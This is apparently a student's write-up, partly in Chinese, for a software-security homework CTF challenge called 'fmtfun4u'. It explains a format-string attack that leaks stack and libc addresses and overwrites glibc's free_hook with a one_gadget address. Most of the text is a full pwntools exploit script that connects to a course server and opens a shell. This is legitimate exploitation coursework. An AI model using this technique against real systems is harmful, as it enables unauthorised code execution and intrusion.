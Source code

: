 # Software Security Hw04 - fmtfun4u

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

這題由於不會經過main的return，而且format string在data段上，沒有辦法使用buffer overflow 以及ROP

這題我的解題思路是先將stack leak出來後，利用argv chain將迴圈的值先改寫為較大的數字，避免close STDIN, STDOUT.

之後再leak libc的位置後同樣使用argv chain去改寫 glibc 中 free_hook的值為one_gadget的位置

當printf所輸出的長度大於65536的時候會使用malloc, free，便可以觸發 free_hook中的內容。

以下為我的解題script
```python
#!/usr/bin/env python

from pwn import *

r = remote('csie.ctf.tw', 10136)
#r = process('./fmtfun4u')

r.recvuntil(':')


leak_stack_format = '%6$llu'
leak_libc_format = '%9$llu'

libc_start_main_offset = 0x20740
execve_gadget_offset = 0xf0274
free_hook_offset = 0x03c67a8

libc_base = 0
i_addr = 0
target_addr = 0

def set_format_string_target(val):
    offset = target_addr&0xffff 
    for i in range(0,8,2):
        set_addr_format = '%' + str(offset+i) + 'c%11$hn'
        r.sendline(set_addr_format)
        r.recvuntil(':')
        if (val&0xffff) > 0:
            r.sendline('%' + str(val&0xffff) + 'c%37$hn')
        else:
            r.sendline('%37$hn')
        r.recvuntil(':')
        val = val >> 16

def leak(format_string):
    r.sendline(format_string)
    ret = int(r.recvuntil('\n').strip())
    r.recvuntil(':')
    return ret

def write_to_target(val):
    if val != 0:
        write_format = '%' + str(val) + 'c%10$hn'
    else:
        write_format = '%10$hn'
    r.sendline(write_format)
    r.recvuntil(':')

def overwrite(addr, val):
    for i in range(0, 8, 2):
        set_format_string_target(addr+i) 
        write_to_target(val&0xffff)
        val = val >> 16

def overwrite_i(addr, val):
    payload = '%' + str(addr) + 'c%11$hn'
    r.sendline(payload)
    r.recvuntil(':')
    payload = '%' + str(val) + 'c%37$hn'
    r.sendline(payload)
    r.recvuntil(':')

i_addr = leak(leak_stack_format) - 0xe4
target_addr = i_addr + 0x14
print 'i_addr', hex(i_addr)

overwrite_i(i_addr&0xffff, 1000)

libc_base = leak(leak_libc_format) - 240 - libc_start_main_offset
print "libc_base:", hex(libc_base)
print "hook_addr:", hex(libc_base + free_hook_offset)

overwrite(libc_base + free_hook_offset, libc_base + execve_gadget_offset)
r.sendline('%100000c')

r.interactive()

```